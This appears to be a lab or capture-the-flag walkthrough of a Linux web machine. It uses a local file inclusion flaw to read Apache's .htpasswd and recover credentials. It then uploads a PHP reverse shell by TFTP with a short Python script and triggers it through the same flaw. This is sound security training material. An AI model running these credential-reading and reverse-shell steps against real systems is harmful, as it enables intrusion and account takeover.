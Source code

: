 Apache contains a file called **.htpasswd** that contains user authentication information. It can normally be found in **/var/www/html/** or **/etc/apache2/**.

Let's try to read it using the LFI attack from before:

<img style="float: left;" src="screenshots/screenshot7.png">

Great, we now have a working set of credentials - **mike:Sheffield19** 

<br>

The interesting file is: **.htpasswd**

---

### [ What is the group that user Mike is a part of and can be exploited for Privilege Escalation? ]

Unfortunately for us, we are not able to log into the target machine via SSH as it is not open. Another way in would be to open a reverse shell.

Let's use TFTP to upload a reverse shell script. We can then have the web server execute the script by accessing it using the LFI vulnerability that we identified earlier on.

*(I'll be using the PHP reverse shell script from: https://github.com/pentestmonkey/php-reverse-shell)*

<br>

To upload the reverse shell using TFTP, we can use a nifty Python library called **tftpy**.

We use the following Python script to upload our file:

```python
import tftpy

client = tftpy.TftpClient('10.129.42.205', 69)
client.upload("shell.php", "/home/fatalfuric/Desktop/included/shell.php", timeout=5)
```

After running this, our reverse shell script will be uploaded to **/var/lib/tftpboot/shell.php** on the target machine.

To open the reverse shell, all we have to do is to set up a netcat listener on our local machine, then go to http://10.129.42.205/?file=/var/lib/tftpboot/shell.php:

<img style="float: left;" src="screenshots/screenshot8.png">
